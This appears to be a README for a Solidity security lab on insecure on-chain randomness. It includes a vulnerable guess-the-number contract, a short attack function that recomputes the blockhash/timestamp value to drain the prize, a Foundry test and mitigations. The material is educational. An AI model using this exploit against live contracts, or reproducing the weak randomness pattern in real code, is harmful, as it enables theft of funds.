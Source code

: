 
# 01 — Insecure Randomness 🎲❌

This example demonstrates a critical vulnerability in smart contracts that use **predictable on-chain data** like `block.timestamp` and `blockhash` as sources of randomness.

> ❗️ Never use on-chain values for randomness in security-sensitive logic.

---

## 📉 Vulnerability Summary

Random numbers are essential for lotteries, raffles, and games in smart contracts. Many developers attempt to generate random numbers like this:

```solidity
uint256 answer = uint256(
    keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
) % 10;
```

However:
- `block.timestamp` can be slightly manipulated by miners
- `blockhash(block.number - 1)` is public and known within the same block

This leads to **predictable and exploitable randomness**.

---

## 🔬 Target Contract

**File:** `src/GuessTheRandomNumber.sol`

The contract:
- Accepts 1 ETH from the deployer
- Offers 1 ETH to anyone who correctly guesses the "random" number between 0–9
- Uses the following for pseudo-randomness:

```solidity
uint256 answer = uint256(
    keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
) % 10;
```

This is vulnerable to prediction by attackers who can:
- Simulate the same values off-chain
- Call the contract with the exact answer

---

## 🧨 Attack Contract

**File:** `test/TestAttackGuessTheNumber.t.sol`

The attacker contract:
- Simulates the same `keccak256` calculation
- Calls `guess()` with the correct answer
- Wins 1 ETH from the game contract

The attack is wrapped in a single function call:

```solidity
function attack(IGuessTheRandomNumber _game) public {
    uint256 answer = uint256(
        keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
    ) % 10;
    _game.guess(answer);
}
```

---

## 🧪 Foundry Test

**File:** `test/TestAttackGuessTheNumber.t.sol`

Tests:
- Simulate Alice deploying the game contract with 1 ETH
- Eve deploys the attacker contract
- Eve launches the attack and drains the funds

### ✅ Assertions

```solidity
assertEq(address(game).balance, 0);
assertEq(address(attacker).balance, 2 ether);
```

---

## 🧾 Run the Test

```bash
forge test
```

Expected output:

```
[PASS] testAttack() (gas: xxxx)
Logs:
  Game balance after attack: 0
  Attacker balance after attack: 1 ether
```

---

## 🔐 Mitigation

**✅ Never use on-chain data for randomness.**

### Use secure alternatives:

- ✅ [Chainlink VRF](https://docs.chain.link/vrf)
- ✅ Commit-reveal schemes (for low-stake games)
- ✅ Off-chain random number generation with verification

> 🧠 Always assume any on-chain value is visible and potentially manipulatable.

---

## 🔚 Final Thoughts

Randomness is a powerful tool in smart contract development—but only when implemented correctly. As we've seen, relying on block attributes like `block.timestamp` or `blockhash` leads to predictable outcomes that attackers can exploit.

If you're building anything that relies on randomness—lotteries, games, NFT drops—always use secure and verifiable approaches like [Chainlink VRF](https://docs.chain.link/vrf) to ensure fairness across your application.

Smart contract security is about thinking one step ahead. Audit your code, simulate attacks, and never stop learning.

---

## 📁 Folder Structure

```
01-insecure-randomness/
├── src/
│   ├── GuessTheRandomNumber.sol   # Vulnerable contract
├── test/
│   └── TestAttackGuessTheNumber.t.sol # Foundry test file
├── foundry.toml                   # Foundry config
└── README.md                      # This file
```

---

## 📚 References

- [Solidity Security: Randomness](https://docs.soliditylang.org/en/latest/security-considerations.html#randomness)
- [Chainlink VRF](https://docs.chain.link/vrf)
- [Damn Vulnerable DeFi: Randomness](https://github.com/tinchoabbate/damn-vulnerable-defi)

---

## ✍️ Author

**Vishaal S (aka 0xvishh)**  
Smart Contract Auditor & Web3 Security Researcher  

- 🔗 [GitHub: @vishaalS7](https://github.com/vishaalS7)  
- 🧵 [X/Twitter: @0xvishh](https://x.com/0xvishh)  
- 📘 [Blog (Medium)](https://medium.com/@0xvishh)

---

## 📝 Blog Post

📖 [Insecure Randomness — Explained with Code & Attack Demo](https://medium.com/@0xvishh/predictable-chaos-the-exploitable-world-of-weak-randomness-cc928c02ca25)

---

## 📌 Tags

`#Solidity` `#SmartContractSecurity` `#Randomness` `#BlockchainSecurity` `#Foundry` `#Top10Bugs`


## 🙌 Thanks for Reading!
🚀 Until next time, happy hacking!
